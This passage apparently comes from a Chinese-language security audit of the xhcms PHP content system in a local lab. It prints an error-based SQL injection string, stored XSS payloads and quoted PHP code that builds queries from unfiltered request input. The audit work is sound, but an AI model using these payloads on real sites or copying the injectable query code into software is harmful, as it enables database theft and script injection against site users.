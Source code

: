 在下面的输入框也能注入

```
1' or updatexml(1,concat(0x7e,(select database())),0) or'
```

### /admin/files/editwz.php

和上面无异

### /admin/files/imageset.php

和上面无异,只是这里不会GET一个id参数,只有content那里加了一个addslashes处理其他的并没有

这里可以上传文件,但是好像没法利用

### /admin/file/manageinfo.php

不提交id参数,post方式在输入框仍然可以注入

不过这里还有一个xss,还是个存储型xss,每次访问的时候都会弹窗了

![image-20210925150753791](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210925150753791.png)

因为这里的参数并没有用htmlspecialchars()或htmlentities()函数过滤

```
<script>alert(1)</script>

<img src=1 onerror=alert(/xss/)>
```

由此可以看出前面没有对参数处理的那些输入框也会存在xss,试了试都可以

这些文件都除了adset都存在sql注入利用条件出奇的一致

![image-20210925152346946](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210925152346946.png)

### /files/content.php

这个文件需要从/index.php进去,同样是利用文件包含

```
http://192.168.121.130/xhcms/?r=content
```

源码

```
<?php 
require 'inc/conn.php';
require 'inc/time.class.php';
$query = "SELECT * FROM settings";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$info = mysql_fetch_array($resul);

$id=addslashes($_GET['cid']);
$query = "SELECT * FROM content WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$content = mysql_fetch_array($resul);

$navid=$content['navclass'];
$query = "SELECT * FROM navclass WHERE id='$navid'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$navs = mysql_fetch_array($resul);

//浏览计数
$query = "UPDATE content SET hit = hit+1 WHERE id=$id";
@mysql_query($query) or die('修改错误：'.mysql_error());
?>
```